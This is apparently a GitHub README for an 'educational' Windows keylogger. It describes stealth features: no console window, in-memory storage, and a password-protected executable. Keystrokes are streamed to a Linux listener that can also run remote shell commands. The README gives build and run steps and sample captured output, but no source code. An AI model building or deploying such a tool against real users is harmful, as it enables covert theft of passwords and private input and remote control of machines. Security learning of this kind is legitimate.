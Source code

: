 # Keylogger



A keylogger  built for educational purposes to demonstrate system programming, networking, and ethical hacking. Runs invisibly on Windows, captures keystrokes in real-time, and logs all activity to a Linux listener. Developed as part of a cybersecurity portfolio, showcasing skills honed through Hack The Box challenges.

**⚠️ Ethical Disclaimer**: For educational use only in authorized environments (e.g., personal VMs). Unauthorized use is illegal and unethical. Use responsibly to learn cybersecurity concepts.

## Demo Video
Watch the keylogger in action: ![Demo Video](Keylogger.mp4).
## Features
- **Silent Execution**: Runs without a console window on Windows using `ctypes`.
- **System-Wide Keylogging**: Captures all keystrokes (requires admin privileges).
- **Real-Time Logging**: Sends keystrokes instantly to the Linux listener via TCP socket.
- **Command Support**: Handles `get_logs` for full keystroke history, `dir`, `whoami`, and `exit`.
- **No Local Logs**: Stores data in memory for stealth, with no files saved on the target.
- **Persistent Logging**: Saves all keystrokes and command outputs to `~/keylogger_received_logs.txt` on the listener.
- **Packaged Executable**: Bundles `keyboard` module in a password-protected `keylogger.exe`.

## Files
- `keylogger.py`: Windows keylogger script (captures and sends keystrokes).
- `listener.py`: Linux listener script (receives and logs data).
- `keylogger_icon.png`: Portfolio icon (keyboard with network signal).


## Process
1. **Setup**:
   - **Windows VM (`x.x.x.x`)**:
     - Install dependencies: `pip install keyboard pyinstaller`.
     - Update `LISTENER_IP` in `keylogger.py` to `x.x.x.x`.
     - Compile: `pyinstaller --onefile --noconsole keylogger.py`.
   - **Linux VM (`x.x.x.x`)**:
     - Install Python: `sudo apt install python3`.
     - Save `listener.py`.
2. **Execution**:
   - Start listener: `python3 listener.py` (listens on `0.0.0.0:4444`).
   - Run keylogger as admin: `Start-Process .\dist\keylogger.exe -Verb runAs`.
   - Type in any app (e.g., Notepad, “who”).
   - Listener displays `KEYSTROKE: [2025-08-07 07:45:23] w`, etc., and logs to `~/keylogger_received_logs.txt`.
3. **Commands**:
   - Send `dir` or `whoami` to execute shell commands.
   - Send `get_logs` to retrieve all keystrokes.
   - Send `exit` or press `Ctrl+C` to close.
4. **Output**:
   - Logs (`~/keylogger_received_logs.txt`) include connection events, keystrokes, command outputs, and sent commands, without duplicates from `get_logs`.

## Installation
1. **Windows VM**:
   ```bash
   pip install keyboard pyinstaller
   ```
2. **Linux VM**:
   ```bash
   sudo apt install python3
   ```
3. Update `LISTENER_IP` in `keylogger.py` to your Linux VM IP (e.g., `x.x.x.x`).

## Packaging
```bash
pyinstaller --onefile --noconsole keylogger.py
```


## Usage
1. Start listener on Linux:
   ```bash
   python3 listener.py
   ```
2. Run keylogger on Windows:
   ```bash
   .\dist\keylogger.exe 
   ```
3. Type in any app; keystrokes are logged in real-time to `~/keylogger_received_logs.txt`.
4. Send commands (`whoami`, `dir`, `get_logs`, `exit`).
5. Exit with `Ctrl+C` or `exit` command.

## Example Output
```
Listening on 0.0.0.0:4444...
Connection from ('x.x.x.x', 50499)
[*] Connected from Windows
KEYSTROKE: [2025-08-07 07:45:23] w
KEYSTROKE: [2025-08-07 07:45:24] h
KEYSTROKE: [2025-08-07 07:45:24] o
> dir
Sent command: dir
Volume in drive C has no label...
> whoami
Sent command: whoami
desktop-3ckfkt3\ajnur
> get_logs
Sent command: get_logs
[*] Logs:
LOG: [2025-08-07 07:45:23] w
LOG: [2025-08-07 07:45:24] h
LOG: [2025-08-07 07:45:24] o
> exit
Sent command: exit
Connection closed from ('x.x.x.x', 50499)
```
Logs in `~/keylogger_received_logs.txt`:
```
[2025-08-07 07:45:00] Listening on 0.0.0.0:4444
[2025-08-07 07:45:01] Connection from ('x.x.x.x', 50499)
[2025-08-07 07:45:01] [*] Connected from Windows
[2025-08-07 07:45:23] KEYSTROKE: [2025-08-07 07:45:23] w
[2025-08-07 07:45:24] KEYSTROKE: [2025-08-07 07:45:24] h
[2025-08-07 07:45:24] KEYSTROKE: [2025-08-07 07:45:24] o
[2025-08-07 07:45:30] Sent command: dir
[2025-08-07 07:45:30] Volume in drive C has no label...
[2025-08-07 07:45:35] Sent command: whoami
[2025-08-07 07:45:35] desktop-3ckfkt3\ajnur
[2025-08-07 07:45:40] Sent command: get_logs
[2025-08-07 07:45:45] Sent command: exit
[2025-08-07 07:45:45] Connection closed from ('x.x.x.x', 50499)
```

## Notes

- `keyboard` module is bundled in `keylogger.exe`.
- Video demonstrates setup, execution, and logging.

